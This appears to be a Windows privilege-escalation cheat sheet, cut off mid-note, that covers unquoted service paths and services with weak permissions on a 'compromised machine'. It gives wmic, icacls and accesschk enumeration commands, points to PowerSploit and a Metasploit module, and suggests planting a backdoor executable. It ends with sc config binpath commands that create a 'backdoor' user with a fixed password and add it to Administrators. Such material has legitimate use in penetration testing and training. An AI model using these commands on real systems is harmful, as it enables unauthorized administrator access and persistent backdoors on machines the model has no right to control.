 ## Find writeable files

dir /a-r-d /s /b

/a is to search for attributes. In this case r is read only and d is directory. The minus signs negate those attributes. So we're looking for writable files only.
/s means recurse subdirectories
/b means bare format. Path and filename only.

## Trusted Service Paths

List all unquoted service paths (minus built-in Windows services) on our compromised machine:
`wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """`

Suppose we found:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
To be secure it should be like this:
“C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe”
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
C:\Program.exe
C:\Program Files.exe
C:\Program Files(x86)\Program Folder\A.exe
...

We can also use PowerUP from PowerSploit and use Install-ServiceBinary / Write-ServiceBinary and then go to services.msc and run service manually if we have access.


## Check permissions of folder path

icacls "C:\Program Files (x86)\Program Folder"

If we can write in the path we plant a backdoor with the same name with the service and restart the service.

##Metasploit module:
exploit/windows/local/trusted_service_path
Vulnerable Services
Search for services that have a binary path (binpath) property which can be modified by non-Admin users - in that case change the binpath to execute a command of your own.
Note: Windows XP shipped with several vulnerable built-in services.
## Use accesschk from SysInternals to search for these vulnerable services.
https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx
For Windows XP, version 5.2 of accesschk is needed:
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
Then query the service using Windows sc:
sc qc <vulnerable service name>
Then change the binpath to execute your own commands (restart of the service will most likely be needed):
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln-service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
Note - Might need to use the depend attribute explicitly: